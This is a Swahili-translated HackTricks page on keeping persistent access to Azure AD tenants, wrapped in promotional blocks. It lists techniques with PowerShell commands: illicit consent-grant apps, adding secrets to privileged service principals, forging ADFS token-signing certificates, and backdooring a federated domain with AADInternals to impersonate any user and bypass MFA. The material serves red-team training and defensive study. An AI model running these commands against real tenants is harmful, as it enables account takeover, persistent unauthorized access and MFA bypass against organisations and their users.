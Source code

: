 # Az - Uthabiti

<details>

<summary><strong>Jifunze kuhusu kuvamia AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA USAJILI**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) za kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za kuvamia kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

### Ruhusa Haramu ya Kutoa Idhini

Kwa chaguo-msingi, mtumiaji yeyote anaweza kujiandikisha programu katika Azure AD. Kwa hivyo unaweza kujiandikisha programu (kwa ajili ya mpangaji wa lengo tu) ambayo inahitaji ruhusa kubwa ya athari na idhini ya msimamizi (na kuipitisha ikiwa wewe ni msimamizi) - kama kutuma barua pepe kwa niaba ya mtumiaji, usimamizi wa jukumu nk. Hii itaturuhusu **kutekeleza mashambulizi ya udukuzi** ambayo yangekuwa **yenye mafanikio** sana kwa mafanikio.

Zaidi ya hayo, unaweza pia kukubali programu hiyo na mtumiaji wako kama njia ya kudumisha ufikiaji juu yake.

### Programu na Mabwana wa Huduma

Kwa mamlaka ya Msimamizi wa Programu, GA au jukumu la desturi lenye ruhusa za microsoft.directory/applications/credentials/update, tunaweza kuongeza siri (au cheti) kwa programu iliyopo.

Inawezekana **kulenga programu yenye ruhusa kubwa** au **kuongeza programu mpya** yenye ruhusa kubwa.

Jukumu la kuvutia la kuongeza kwa programu hiyo litakuwa **Jukumu la Msimamizi wa Uthibitishaji wa Kipekee** kwani inaruhusu **kusahau nenosiri** la Wasimamizi wa Kijumla.

Mbinu hii pia inaruhusu **kupuuza MFA**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Kwa uthibitishaji kulingana na cheti

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
### Umoja - Cheti cha Kusainiwa kwa Alama ya Kidole

Ukiwa na **mamlaka ya DA** kwenye AD ya ndani, inawezekana kuunda na kuagiza **vyeti vipya vya kusaini token** na **vyeti vya kufyatua token** ambavyo vina muda mrefu sana wa uhalali. Hii itatuwezesha **kuingia kama mtumiaji yeyote** ambaye tunajua ImuutableID yake.

**Chukua** amri ifuatayo kama **DA kwenye seva za ADFS** kuunda vyeti vipya (nywila ya chaguo 'AADInternals'), waongeze kwenye ADFS, zima ugeuzaji wa moja kwa moja na anzisha upya huduma:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Kisha, sasisha habari ya cheti na Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Umoja - Kikoa Kinachotegemewa

Ukiwa na mamlaka ya GA kwenye mpangaji, ni **inawezekana kuongeza kikoa kipya** ( lazima ithibitishwe), sanidi aina yake ya uwakilishi kuwa Umoja na sanidi kikoa hicho kuwa **kinategemea cheti maalum** (any.sts katika amri hapa chini) na mtoaji:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Marejeo

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikionekana kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA USAJILI**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

